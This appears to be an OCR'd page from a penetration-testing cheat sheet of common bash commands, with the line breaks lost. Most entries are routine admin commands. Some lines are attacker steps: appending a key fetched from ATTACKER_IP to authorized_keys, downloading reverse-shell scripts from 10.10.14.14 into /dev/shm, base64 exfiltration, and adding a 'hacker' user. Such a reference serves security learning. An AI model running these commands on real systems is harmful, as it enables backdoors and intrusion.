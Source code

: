 **Common Bash**#Exfiltration using Base64base64 -w 0 file#Get HexDump without new linesxxd -p boot12.bin | tr -d '\n'#Add public key to authorized keyscurl https://ATTACKER\_IP/.ssh/id\_rsa.pub >> \~/.ssh/authorized\_keys#Echo without new line and Hexecho -n -e#Countwc -l \<file> #Lineswc -c #Chars#Sortsort -nr #Sort by number and then reversecat file | sort | uniq #Sort and delete duplicates#Replace in filesed -i 's/OLD/NEW/g' path/file #Replace string inside a file#Download in RAMwget 10.10.14.14:8000/tcp\_pty\_backconnect.py -O /dev/shm/.rev.pywget 10.10.14.14:8000/tcp\_pty\_backconnect.py -P /dev/shmcurl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py#Files used by network processeslsof #Open files belonging to any processlsof -p 3 #Open files used by the processlsof -i #Files used by networks processeslsof -i 4 #Files used by network IPv4 processeslsof -i 6 #Files used by network IPv6 processeslsof -i 4 -a -p 1234 #List all open IPV4 network files in use by the process 1234lsof +D /lib #Processes using files inside the indicated dirlsof -i :80 #Files uses by networks processesfuser -nv tcp 80#Decompresstar -xvzf /path/to/yourfile.tgztar -xvjf /path/to/yourfile.tbzbzip2 -d /path/to/yourfile.bz2tar jxf file.tar.bz2gunzip /path/to/yourfile.gzunzip file.zip7z -x file.7zsudo apt-get install xz-utils; unxz file.xz#Add new useruseradd -p 'openssl passwd -1 \<Password>' hacker#Clipboardxclip -sel c < cat file.txt#HTTP serverspython -m SimpleHTTPServer 80python3 -m http.serverruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"php -S $ip:80#Curl#json datacurl --header "Content-Type: application/json" --request POST --data '{"password":"password", "username":"admin"}' http://host:3000/endpoint#Auth via JWTcurl -X GET -H 'Authorization: Bearer \<JWT>' http://host:3000/endpoint#Send EmailsendEmail -t to@email.com -f from@email.com -s 192.168.8.131 -u Subject -a file.pdf #You will be prompted for the content#DD copy hex bin file without first X (28) bytesdd if=file.bin bs=28 skip=1 of=blob#Mount .vhd files (virtual hard drive)sudo apt-get install libguestfs-toolsguestmount --add NAME.vhd --inspector --ro /mnt/vhd #For read-only, create first /mnt/vhd# ssh-keyscan, help to find if 2 ssh ports are from the same host comparing keysssh-keyscan 10.10.10.101# Opensslopenssl s\_client -connect 10.10.10.127:443 #Get the certificate from a serveropenssl x509 -in ca.cert.pem -text #Read certificateopenssl genrsa -out newuser.key 2048 #Create new RSA2048 keyopenssl req -new -key newuser.key -out newuser.csr #Generate certificate from a private key. Recommended to set the "Organizatoin Name"(Fortune) and the "Common Name" (newuser@fortune.htb)openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Create certificateopenssl x509 -req -in newuser.csr -CA intermediate.cert.pem -CAkey intermediate.key.pem -CAcreateserial -out newuser.pem -days 1024 -sha256 #Create a signed certificateopenssl pkcs12 -export -out newuser.pfx -inkey newuser.key -in newuser.pem #Create from the signed certificate the pkcs12 certificate format (firefox)# If you only needs to create a client certificate from a Ca certificate and the CA key, you can do it using:openssl pkcs12 -export -in ca.cert.pem -inkey ca.key.pem -out client.p12# Decrypt ssh keyopenssl rsa -in key.ssh.enc -out key.ssh#Decryptopenssl enc -aes256 -k \<KEY> -d -in backup.tgz.enc -out b.tgz#Count number of instructions executed by a program, need a host based linux (not working in VM)perf stat -x, -e instructions:u "ls"#Find trick for HTB, find files from 2018-12-12 to 2018-12-14find / -newermt 2018-12-12 ! -newermt 2018-12-14 -type f -readable -not -path "/proc/\*" -not -path "/sys/\*" -ls 2>/dev/null#Reconfigure timezonesudo dpkg-reconfigure tzdata#Search from which package is a binaryapt-file search /usr/bin/file #Needed: apt-get install apt-file#Protobuf decode https://www.ezequiel.tech/2020/08/leaking-google-cloud-projects.htmlecho "CIKUmMesGw==" | base64 -d | protoc --decode\_raw#Set not removable bitsudo chattr +i file.txtsudo chattr -i file.txt #Remove the bit so you can delete it# List files inside zip7z l file.zip\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)**を使用して、世界で最も高度なコミュニティツールによって強化されたワークフローを簡単に構築および自動化します。**\